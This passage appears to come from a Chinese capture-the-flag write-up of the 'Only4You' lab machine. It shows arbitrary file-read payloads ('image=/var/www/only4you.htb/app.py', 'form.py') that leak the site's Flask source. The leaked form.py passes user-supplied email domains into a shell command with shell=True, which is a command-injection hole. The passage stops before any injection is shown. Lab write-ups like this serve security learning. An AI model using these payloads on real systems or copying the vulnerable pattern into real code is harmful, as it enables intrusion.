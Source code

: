 注意到 `/var/www/only4you.htb/`，应该是这个项目的文件夹。而参考我们在 `beta.only4you.htb` 下载的源码，可以大致猜测主站的项目文件夹里也有个 `app.py`。

payload：`image=/var/www/only4you.htb/app.py`  
响应：
```py
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr
……
```

第二行似乎导入了一个自定义包：`from form import sendmessage`  
请求一下看看，确实有。这好像是主站那个发送反馈的表单：

payload：`image=/var/www/only4you.htb/form.py`  
响应：
```py
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress

def issecure(email, ip):
	if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
		return 0
	else:
		domain = email.split("@", 1)[1]
		result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
		output = result.stdout.decode('utf-8')
		if "v=spf1" not in output:
			return 1
		else:
			domains = []
			ips = []
			if "include:" in output:
				dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
				dms.pop(0)
				for domain in dms:
					domains.append(domain)
				while True:
					for domain in domains:
						result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
						output = result.stdout.decode('utf-8')
						if "include:" in output:
							dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
							domains.clear()
							for domain in dms:
								domains.append(domain)
						elif "ip4:" in output:
							ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
							ipaddresses.pop(0)
```